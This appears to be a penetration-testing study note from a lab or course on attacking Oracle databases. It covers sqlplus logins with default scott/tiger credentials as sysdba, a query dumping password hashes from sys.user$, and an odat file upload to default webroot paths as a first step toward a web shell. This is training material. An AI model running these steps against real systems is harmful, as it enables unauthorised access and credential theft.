 


#### once we found the user and password by running the `odat` we can use a tool `sqlplus` to login to the database.
```bash
sqlplus <user>/<password>@<ip>/XE
```

#### Oracle RDBMS - Interaction

```bash
select table_name from all_tables;

select * from user_role_privs;
```
#### Oracle RDBMS - Database Enumeration
```bash
sqlplus scott/tiger@<ip>/XE as sysdba

SQL> select * from user_role_privs;
```

#### Oracle RDBMS - Extract Password Hashes

```bash
select name, password from sys.user$;
```

Another option is to upload a web shell to the target. However, this requires the server to run a web server, and we need to know the exact location of the root directory for the webserver. Nevertheless, if we know what type of system we are dealing with, we can try the default paths, which are:

|**OS**|**Path**|
|---|---|
|Linux|`/var/www/html`|
|Windows|`C:\inetpub\wwwroot`|

First, trying our exploitation approach with files that do not look dangerous for Antivirus or Intrusion detection/prevention systems is always important. Therefore, we create a text file with a string and use it to upload to the target system.

```shell
echo "Oracle File Upload Test" > testing.txt
./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```

Finally, we can test if the file upload approach worked with `curl`. Therefore, we will use a `GET http://<IP>` request, or we can visit via browser.
```shell
curl -X GET http://10.129.204.235/testing.txt
```
![[Pasted image 20241113002632.png]]
### **Exam Tips & Key Points**
